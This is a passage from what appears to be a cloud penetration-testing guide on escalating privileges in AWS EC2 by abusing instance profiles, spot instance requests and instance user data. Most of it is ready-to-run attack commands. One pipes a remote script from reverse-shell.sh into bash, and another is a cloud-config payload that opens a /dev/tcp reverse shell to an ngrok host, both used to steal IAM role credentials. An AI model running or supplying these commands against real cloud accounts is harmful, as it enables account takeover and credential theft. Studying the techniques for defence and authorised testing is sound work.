 ```bash
aws ec2 replace-iam-instance-profile-association --iam-instance-profile Name=<value> --association-id <value>
```

**Potential Impact:** Direct privesc to a different EC2 role (you need to have compromised a AWS EC2 instance and some extra permission or specific instance profile status).

### `ec2:RequestSpotInstances`,`iam:PassRole`

An attacker with the permissions **`ec2:RequestSpotInstances`and`iam:PassRole`** can **request** a **Spot Instance** with an **EC2 Role attached** and a **rev shell** in the **user data**.\
Once the instance is run, he can **steal the IAM role**.

```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 request-spot-instances \
   --instance-count 1 \
   --launch-specification "{\"IamInstanceProfile\":{\"Name\":\"EC2-CloudWatch-Agent-Role\"}, \"InstanceType\": \"t2.micro\", \"UserData\":\"$REV\", \"ImageId\": \"ami-0c1bc246476a5572b\"}"
```

### `ec2:ModifyInstanceAttribute`

An attacker with the **`ec2:ModifyInstanceAttribute`** can modify the instances attributes. Among them, he can **change the user data**, which implies that he can make the instance **run arbitrary data.** Which can be used to get a **rev shell to the EC2 instance**.

Note that the attributes can only be **modified while the instance is stopped**, so the **permissions** **`ec2:StopInstances`** and **`ec2:StartInstances`**.

```bash
TEXT='Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
bash -i >& /dev/tcp/2.tcp.ngrok.io/14510 0>&1
--//'
TEXT_PATH="/tmp/text.b64.txt"

printf $TEXT | base64 > "$TEXT_PATH"

aws ec2 stop-instances --instance-ids $INSTANCE_ID

aws ec2 modify-instance-attribute \
    --instance-id="$INSTANCE_ID" \
    --attribute userData \
    --value file://$TEXT_PATH
```